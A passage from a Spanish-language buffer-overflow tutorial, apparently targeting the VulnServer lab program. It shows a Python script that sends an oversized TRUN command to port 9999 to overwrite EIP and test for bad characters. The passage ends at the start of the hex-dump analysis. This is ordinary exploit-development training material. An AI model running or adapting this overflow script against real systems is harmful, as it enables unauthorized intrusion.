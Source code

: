 ### Modificación del Script

Para comenzar, es necesario modificar el script que sobrescribió el **EIP** en la etapa anterior, agregando una secuencia de todos los caracteres hexadecimales posibles (exceptuando el byte nulo, que se conoce como problemático). Esta secuencia se añadirá después de los bytes que sobrescriben el **EIP**.

El script modificado debería verse así:

```python
#!/usr/bin/python
import sys, socket
from time import sleep

badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
shellcode = "A" * 2003 + "B" * 4 + badchars
ip_address = 'reemplazar por la ip del target'

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, 9999))
    s.send(('TRUN /.:/' + shellcode).encode('utf-8'))
    s.close()
except:
    print("Error al conectar con el servidor")
    sys.exit()
```

### Ejecución del Script

Una vez que el script ha sido modificado, se ejecuta de la misma manera que antes, con **Immunity Debugger** corriendo y adjuntado al servidor vulnerable. Al revisar el **dump** en **Immunity**, se debe observar la secuencia de bytes enviada, comenzando desde **0x01** y continuando hasta **0xFF**.

### Análisis del Hex Dump
